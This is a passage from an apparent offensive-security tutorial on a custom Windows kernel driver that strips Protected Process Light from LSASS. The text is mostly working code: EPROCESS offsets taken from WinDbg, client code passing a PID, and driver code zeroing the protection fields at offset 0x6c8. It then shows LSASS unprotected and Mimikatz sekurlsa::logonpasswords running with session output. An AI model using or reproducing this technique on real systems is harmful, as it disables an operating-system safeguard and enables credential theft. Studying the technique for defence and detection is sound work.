

From the perspective of the kernel, the protection level of a process is stored in a struct called [EPROCESS](https://docs.microsoft.com/en-us/windows-hardware/drivers/kernel/eprocess) - an opaque structure that serves as the process object for a process.  We can obtain a pointer to the EPROCESS struct for a process using [PsLookupProcessByProcessId](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-pslookupprocessbyprocessid).  But unfortunately, because the struct is opaque, we can't just access its members like `eProcess->Protection`.  Instead, we have to use known offsets.  The (perhaps obvious) downside is that these offsets vary between different versions of Windows.

We can find the correct offset for our current Windows target in WinDbg using the `dt nt!_EPROCESS` command.

```
kd> dt nt!_EPROCESS
   +0x000 Pcb              : _KPROCESS
   +0x2d8 ProcessLock      : _EX_PUSH_LOCK
   +0x2e0 UniqueProcessId  : Ptr64 Void
   [...snip...]
   +0x6c8 SignatureLevel   : UChar
   +0x6c9 SectionSignatureLevel : UChar
   +0x6ca Protection       : _PS_PROTECTION
```


The members of interest are **SignatureLevel**, **SectionSignatureLevel** and **Protection**.  `_PS_PROTECTION` is another struct that looks like this:

```
typedef struct _PS_PROTECTION
{
    UCHAR Type : 3;
    UCHAR Audit : 1;    // Reserved
    UCHAR Signer : 4;
} PS_PROTECTION, * PPS_PROTECTION;
```


To remove the protection of a process, we just have to set all these values to 0.  A simple struct can be used to send the target PID from the client to the driver.

```
struct TargetProcess
{
	int ProcessId;
};
```


An easy way to send the PID from the client is to accept it on the command line.

```
int main(int argc, const char* argv[])
{
    // check arg length
    if (argc < 2)
    {
        printf("[!] Target PID required\n");
        return 1;
    }

    // open handle etc

    TargetProcess target;
    target.ProcessId = atoi(argv[1]);

    ...
}
```


On the driver side, we also need some structs to read the members of interest from EPROCESS.

```
typedef struct _PS_PROTECTION
{
    UCHAR Type : 3;
    UCHAR Audit : 1;
    UCHAR Signer : 4;
} PS_PROTECTION, * PPS_PROTECTION;

typedef struct _PROCESS_PROTECTION_INFO
{
    UCHAR SignatureLevel;
    UCHAR SectionSignatureLevel;
    PS_PROTECTION Protection;
} PROCESS_PROTECTION_INFO, *PPROCESS_PROTECTION_INFO;
```


First, recover the PID received from the client and call PsLookupProcessByProcessId.  We can then cast the data from EPROCESS at the known offset to PROCESS_PROTECTION_INFO.

```
TargetProcess* target = (TargetProcess*)stack->Parameters.DeviceIoControl.Type3InputBuffer;

PEPROCESS eProcess = NULL;
status = PsLookupProcessByProcessId((HANDLE)target->ProcessId, &eProcess);

PROCESS_PROTECTION_INFO* psProtection = (PROCESS_PROTECTION_INFO*)(((ULONG_PTR)eProcess) + 0x6c8);
```


Then it's a simple case of setting each value to 0 and dereferencing EPROCESS.

```
// 0 the values
psProtection->SignatureLevel = 0;
psProtection->SectionSignatureLevel = 0;
psProtection->Protection.Type = 0;
psProtection->Protection.Signer = 0;

// dereference eProcess
ObDereferenceObject(eProcess);
```


The [Remarks](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-pslookupprocessbyprocessid#remarks) section of the PsLookupProcessByProcessId documentation specifically says that the API increases the reference count on the object returned.  If a kernel object still has references to it, then the associated resources cannot be freed once it's no longer in use.  We therefore must call **ObDereferenceObject** to decrement the reference count.


Client output:

```
C:\RedOctober>Client.exe 660
[+] Opening handle to driver...success!
[+] Calling RED_OCTOBER_DEVICE_UNPROTECT_PROCESS...success
```


Driver output:

```
[+] Got EPROCESS for PID 660 (0xFFFFC2864E35F080)
[+] Removing Process Protection for PID 660
```


Close and reopen Process Explorer to see that LSASS is no longer protected.




Mimikatz can now work.

```
mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 143747 (00000000:00023183)
Session           : RemoteInteractive from 2
User Name         : IEUser
Domain            : MSEDGEWIN10
Logon Server      : MSEDGEWIN10
Logon Time        : 4/4/2022 8:18:18 AM
SID               : S-1-5-21-462794523-3640862815-4282992083-1000
```


Remember that change is only in memory.  When the machine is rebooted, LSASS will start and its protection will be reapplied.